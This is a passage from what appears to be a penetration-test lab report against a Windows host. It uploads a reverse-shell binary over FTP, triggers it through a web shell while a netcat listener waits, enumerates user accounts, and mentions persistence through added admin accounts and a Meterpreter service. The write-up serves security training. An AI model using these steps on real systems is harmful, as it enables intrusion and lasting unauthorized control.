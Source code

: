 ```bash
ftp 192.168.51.46 21
binary
put rshell.exe
exit
```

```bash
sudo nc -nvlp 242
curl -u offsec:elite "http://192.168.51.46:242/cmd.php?cmd=c:\\wamp\\www\\rshell.exe"
whoami

# output
livda\apache
```

## Maintaining Access
Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable. The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again. Many exploits may only be exploitable once and we may never be able to get back into a system after we have already per-formed the exploit. Victor added administrator and root level accounts on all systems compromised. In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to en-sure that additional access could be established.

### Privilege Escalation
```bash
net user

# output
User accounts for \\LIVDA

-------------------------------------------------------------------------------
Administrator            apache                   Guest                    
The command completed successfully.
```

The presence of a folder under the Users directory suggests there was another user on the target who has since been deleted.
```bash
cd c:\
dir c:\users

# output
 Volume in drive C has no label.
 Volume Serial Number is BCAD-595B

 Directory of c:\users

07/14/2021  10:27 PM    <DIR>          .
07/14/2021  10:27 PM    <DIR>          ..
02/14/2010  05:16 PM    <DIR>          Administrator
11/08/2011  05:34 AM    <DIR>          apache
01/19/2008  02:40 AM    <DIR>          Public
03/30/2020  06:32 AM    <DIR>          test123 # <--- notice the date
               0 File(s)              0 bytes
               7 Dir(s)   6,025,224,192 bytes free
```

